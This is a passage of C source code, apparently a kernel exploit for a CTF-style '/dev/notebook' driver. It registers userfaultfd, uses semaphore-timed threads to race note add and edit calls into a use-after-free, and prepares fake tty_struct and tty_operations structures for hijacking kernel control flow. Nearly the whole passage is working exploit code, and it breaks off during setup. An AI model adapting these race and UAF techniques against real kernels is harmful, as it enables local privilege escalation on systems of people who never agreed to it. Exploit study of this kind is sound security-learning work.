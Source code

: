 ```c

    ioctl(note_fd, 100, &note);
}

ssize_t note_read(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t note_wriite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

/**
 * Exploite stage
**/

void* fix_size_by_add(void *args)
{
    sem_wait(&evil_add_sem);
    note_add(0, 0x60, uffd_buf);
}

void* construct_uaf(void * args)
{
    sem_wait(&evil_edit_sem);
    note_edit(0, 0, uffd_buf);
}

void exploit()
{
    struct knotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infastructure */
    save_status();
    bind_core(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        err_exit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE, 
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
```